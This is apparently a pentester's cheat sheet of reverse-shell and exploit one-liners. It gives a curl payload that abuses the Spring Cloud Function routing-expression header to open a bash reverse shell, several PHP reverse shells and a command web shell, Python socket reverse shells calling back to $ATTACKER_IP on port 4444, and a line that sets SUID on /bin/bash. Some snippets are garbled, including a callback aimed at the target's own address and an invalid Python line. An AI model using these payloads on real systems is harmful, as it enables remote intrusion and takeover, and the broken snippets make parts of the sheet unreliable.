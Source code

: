JAVA Spring Boot cloud exploit and rev-shell:
---
```shell
curl -X POST [http://$TARGET_IP:8080/functionRouter](http://$TARGET_IP:8080/functionRouter) -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/$TARGET_IP/4444 0>&1")' --data-raw 'data' -v
```

Windows PHP rev shell
---
[https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php)

PHP Reverse shell LFI:
---
#php #rev-shell #reverse #rev 

or use system() exec() passthru() shell_exec()

```php
<?php exec("/bin/bash -c 'bash -i > /dev/tcp/$ATTACKER_IP/4444 0>&1'");?>
```


```php
<?php $sock=fsockopen("$ATTACKER_IP",4444);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);?>
```

```php
<?php exec($_GET['cmd']);?>
```

Python Rev shell
---
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"
```

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$ATTACKER_IP",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Python Priv Esc
---
```python
pyimport os;os.system("chmod +s /bin/bash");f=function f2(){};
```
